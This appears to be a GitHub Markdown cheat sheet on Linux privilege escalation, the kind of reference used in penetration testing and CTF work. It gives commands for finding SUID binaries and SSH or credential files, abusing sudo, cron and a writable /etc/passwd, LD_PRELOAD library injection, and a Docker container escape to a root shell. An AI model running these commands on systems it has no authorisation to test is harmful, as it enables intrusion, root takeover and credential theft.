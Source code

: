## Linux Priviledge Escalation

- SUID Binaries
   - **Find SUID Files**: `find / -perm -4000 2>/dev/null`
   - **Exploits**: Use GTFOBins for known SUID binary exploits.

- sudo -l (Check Sudo Privileges)
   - **List Privileges**: `sudo -l`
   - Running a vuln executable as particular user, `sudo -u targetuser /bin/vulnfile`
   - **Exploits**: Look for `NOPASSWD` or exploitable commands (e.g., `vim`, `find`).

- Cron Jobs
   - **View Cron Jobs**: `cat /etc/crontab`, `ls -la /etc/cron.d/`
   - **Exploits**: Writable cron scripts or wildcard abuse.

- Writable /etc/passwd
   - **Exploit**: Add new root user using password hash from `openssl passwd -1`.

- SSH Keys
   - **Find Keys**: `find / -name "*.pem" 2>/dev/null`
   - **Exploit**: Use private key for SSH if no passphrase.

- Kernel Exploits
   - **Check Kernel**: `uname -r`
   - **Exploit**: Search for exploits by kernel version on Exploit-DB.

- PATH Variable Manipulation
   - **Exploit**: Modify `PATH` and place malicious script in writable directory.

- NFS Root Squashing
   - **Check**: Look for `no_root_squash` in `/etc/exports`
   - **Exploit**: Mount and access with root on NFS share.

- World-Writable Files
   - **Find**: `find / -writable -type d 2>/dev/null`
   - **Exploit**: Overwrite world-writable scripts or binaries.

- LD_PRELOAD and LD_LIBRARY_PATH
   - **Exploit**: Inject code with custom library.
     ```bash
     gcc -fPIC -shared -o shell.so shell.c -nostartfiles
     LD_PRELOAD=./shell.so <vulnerable_program>
     ```
- Docker Privilege Escalation
   - **Exploit**: Mount root filesystem and escape container:
     ```bash
     docker run -v /:/mnt --rm -it alpine chroot /mnt sh
     ```
- Password and Credential Files
   - **Find Sensitive Files**:
     ```bash
     find / -name "*.bak" 2>/dev/null
     find / -name "*.old" 2>/dev/null
     grep -i "password" /path/to/directory
     ```
  - **ssh files**
    ```bash
    find / -name "id_rsa" -o -name "id_dsa" -o -name "authorized_keys" -o -name "known_hosts" 2>/dev/null
    find / -name "*.pem" -o -name "*.key" 2>/dev/null
    ```

     
